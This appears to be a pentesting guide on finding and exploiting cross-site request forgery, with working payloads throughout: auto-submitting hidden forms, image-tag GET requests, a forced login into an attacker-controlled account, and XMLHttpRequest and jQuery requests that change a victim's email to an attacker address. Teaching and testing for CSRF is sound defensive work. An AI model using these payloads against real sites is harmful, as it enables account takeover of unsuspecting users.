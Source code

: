 # Finding and exploiting CSRF vulnerabilities

* Finding and exploiting `Cross-Site Request Forgery (CSRF)` vulnerabilities involves identifying unprotected state-changing actions and leveraging weak request validation to execute unauthorized operations on behalf of authenticated users.

## Finding CSRF vulnerabilities

1. **Identify state-changing actions** within the web application that alter user data or perform important operations, such as modifying personal details, processing purchases, transferring funds, or executing any API requests that update server-side resources. These actions are potential targets for CSRF attacks.
1. **Check for unprotected forms** within the application that submit data without a CSRF token or the `SameSite` cookie attribute, as this could expose them to CSRF attacks. CSRF tokens are server-generated unique values included in form submissions to prevent unauthorized request execution. To detect these weaknesses, use a web proxy tool like Burp Suite or OWASP ZAP to **intercept and analyze HTTP requests** examining request headers, cookies, and parameters.
1. **Test to confirm the CSRF vulnerability** by crafting a malicious request within an HTML page, utilizing a `form` or `image` tag to send an unauthorized request to the application:

    ```javascript
    <form action="https://vulnerable.tbl/email/update" method="POST">
        <input type="hidden" name="email" value="attacker@attacker.tbl">
        <input type="submit" value="Submit">
    </form>
    ```

    Visiting the crafted malicious page while authenticated in the target application will trigger the CSRF attack.

1. Additionally, as part of in-depth research, leverage a vulnerability scanner for automatic CSRF detection, inspect source code if accessible, perform SAST to uncover security risks, and evaluate the effectiveness of CSRF protections by attempting bypass techniques.

## Exploiting CSRF via state-changing requests (usually POST)

* CSRF attacks using the POST method are among the most common forms of CSRF. These attacks occur when a web application fails to implement security mechanisms (i.e, implementing CSRF tokens or using the `SameSite` attribute on cookies) to protect against unauthorized requests.
* An attacker can exploit this by crafting malicious HTML content that automatically triggers a POST request as soon as the user's browser renders the page.
  * Since browsers allow automatic form submission, attackers can initiate POST requests without user interaction, as long as the victim is logged into the targeted website.
* Unlike GET-based CSRF, POST-based CSRF usually allows attackers to target endpoints that require more structured input, which are typically used for state-changing operations.
* As example, consider a scenario where a web application has a vulnerable `/email/update` endpoint that permits users to update their email address via a POST request, requiring only the `email` parameter. An attacker could craft the following HTML page to exploit this weakness:

    ```html
    <html>
        <body>
            <form action="https://vulnerable.tbl/email/update" method="POST">
                <input type="hidden" name="email" value="attacker@attacker.tbl" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
    ```

## Exploiting CSRF via GET requests

* CSRF vulnerabilities may also be exploited via the GET HTTP method if endpoints permit state-changing operations through GET requests without proper protections.
* GET requests are typically intended for retrieving data, but if a web application uses GET for actions that modify state (e.g., changing user information or making updates), it also creates a significant security risk.
* In the following example, when the user clicks on the following link, its email will be changed to `attacker@attacker.tbl`, making the attacker gain control over the account:

    ```http
    https://vulnerable.tbl/email/update?email=attacker@attacker.tbl
    ```

  * Clicking the link while authenticated to `vulnerable.tbl` causes the browser to automatically send a GET request to the exposed endpoint.
* CSRF can also be exploited via the GET method by embedding the malicious link in an HTML element like an `<img>` tag. When the victim accesses a malicious website, the browser automatically processes the HTML and issues the GET request to the vulnerable endpoint without requiring user interaction:

    ```html
    <img src="https://vulnerable.tbl/email/update?email=attacker@attacker.tbl">
    ```

  * The request sent, containing the victim's authenticated session cookies, would trigger the state-changing operation, altering the user's email address to `attacker@attacker.tbl` without the victim's awareness or approval.
* As an example, after updating the victim’s email, the attacker could reset the password through the new email, effectively gaining complete control of the account.

## Exploiting CSRF via session fixation

* `Session fixation` is an attack where an attacker forces a user to use a predetermined session, effectively hijacking the user's session.
* In certain scenarios, a CSRF attack can be used to log a user into an account controlled by the attacker, overwriting any existing session the user may have had. This results in the user unknowingly operating under the attacker's session.
* Unlike traditional CSRF attacks that focus on unauthorized state changes, this variant manipulates user authentication, potentially leading to account hijacking, data exposure, or session-based tracking.
* The attack follows these steps:
  1. The attacker pre-creates an account (e.g., `attacker@attacker.tbl`) on the targeted vulnerable website.
  1. The attacker constructs a malicious webpage designed to force victims to log in to this account:

      ```html
      <form action="https://vulnerable.tbl/login" method="POST">
          <input type="hidden" name="email" value="attacker@attacker.tbl" />
          <input type="hidden" name="password" value="password123" />
      </form>
      <script>
          document.forms[0].submit();
      </script>
      ```

  1. When a user visits this page, their browser automatically submits the form, initiating a login request. If the server responds with:

      ```http
      Set-Cookie: sessionId=attacker_account_session_id; Secure; HttpOnly; Path=/
      ```

      The browser overwrites the victim's existing session cookie with the attacker account's session.

      > :older_man: The `Same-Origin Policy (SOP)` prevents JavaScript running in a given origin from accessing the content of a document loaded from a different origin. Technically, cross-origin requests are still possible, but JavaScript cannot read the responses. However, the browser continues to process them, including handling the `Set-Cookie` headers.

  1. Since the victim remains unaware of this manipulation, they may continue using the trusted application, believing they are still logged into their own account. However, all actions they perform are tied to the attacker's session.
* This technique is particularly dangerous in applications where users store personal information, payment details, or sensitive messages, as any data entered while under the attacker's session will be accessible to them.
* Attackers can also leverage this approach to track user interactions and harvest sensitive data, initiate fraudulent transactions using stored payment details, exploit account linking mechanisms to permanently associate the victim's actions with the attacker's controlled session.

## Common CSRF payloads

### HTML4 and HTML5 not requiring user interaction

|HTML tags|
|:--:|
|```<iframe src="URL" />```,<br/> ```<script src="URL" />```,<br/> ```<input type="image" src="URL" alt="" />```,<br/> ```<embed src="URL" />```,<br/> ```<audio src="URL" />```,<br/> ```<video src="URL" />```,<br/> ```<source src="URL" />```,<br/> ```<video poster="URL" />```,<br/> ```<link rel="stylesheet" href="URL" />```,<br/> ```<object data="URL" />```,<br/> ```<body background="URL" />```,<br/> ```<div style="background:url("URL")" />```,<br/> ```<style>body { background:url("URL") } </style> />```|

### HTML and JavaScript not requiring user interaction

```html
<form action="https://vulnerable.tbl/email/update" method="POST" id="CSRF" style="display: none;">
  <input name="email" value="attacker@attacker.tbl"/>
</form>
<script>document.getElementById("CSRF").submit()</script>
```

### JavaScript not requiring user interaction

  ```javascript
  <script>
    const url = "https://vulnerable.tbl/email/update";
    const params = "email=attacker@attacker.tbl";
    const CSRF = new XMLHttpRequest();
    CSRF.open("POST", url, false);
    CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    CSRF.send(params);
  </script>
  ```

  ```javascript
  $.ajax({
    type: "POST",
    url: "https://vulnerable.tbl/email/update",
    data: "email=attacker@attacker.tbl",
  });
  ```
